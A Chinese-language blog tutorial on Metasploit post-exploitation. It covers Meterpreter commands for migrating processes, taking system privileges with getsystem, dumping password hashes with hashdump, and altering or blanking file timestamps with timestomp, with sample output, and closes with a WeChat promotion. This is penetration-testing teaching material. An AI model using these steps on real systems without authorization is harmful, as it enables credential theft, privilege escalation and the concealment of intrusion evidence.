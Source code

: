 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit高级后渗透模块
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit高级后渗透模块
lock: need
---
```


# Metasploit高级后渗透模块

### 迁移到更安全的进程

```
migrate [要迁移到的进程id]
```

### 获取系统级权限 

```
getsystem
```

注：getsystem模块在比较新的Windows系统中不太稳定，最好使用本地的提升权限方法和模块来提升控制权限。

```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

### 获取密码的哈希值

```
run hashdump
```

获取了目标的系统级管理权限后，就可以使用hashdump命令获取被渗透系统上登录密码的哈希值。

### 修改文件的访问时间、修改时间和创建时间

这里用到的命令是timestomp

#### 查看文件的时间信息

```
timestomp -v [目标文件]

meterpreter > timestomp -v e:\test.txt
[*] Showing MACE attributes for e:test.txt
Modified      : 2019-01-25 10:24:42 +0800
Accessed      : 2019-01-25 11:20:58 +0800
Created       : 2019-01-25 10:23:22 +0800
Entry Modified: 2019-01-25 10:24:42 +0800
```

#### 修改文件的时间信息

```
timestomp -z [时间信息] [目标文件]
```

此时的时间信息格式为：MM/DD/YYYY HH24:MI:SS

```
meterpreter > timestomp -v e:\test.txt
[*] Showing MACE attributes for e:test.txt
Modified      : 2019-01-25 10:24:42 +0800
Accessed      : 2019-01-25 11:20:58 +0800
Created       : 2019-01-25 10:23:22 +0800
Entry Modified: 2019-01-25 10:24:42 +0800
meterpreter > 
meterpreter > timestomp -z "01/25/2019 11:00:00" e:\test.txt
[*] Setting specific MACE attributes on e:test.txt
meterpreter > timestomp -v e:\test.txt
[*] Showing MACE attributes for e:test.txt
Modified      : 2019-01-25 11:00:00 +0800
Accessed      : 2019-01-25 11:26:29 +0800
Created       : 2019-01-25 11:00:00 +0800
Entry Modified: 2019-01-25 11:00:00 +0800
```

#### 清空时间信息

```
timestomp -b [目标文件]

meterpreter > timestomp -b e:\test.txt
[*] Blanking file MACE attributes on e:test.txt
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)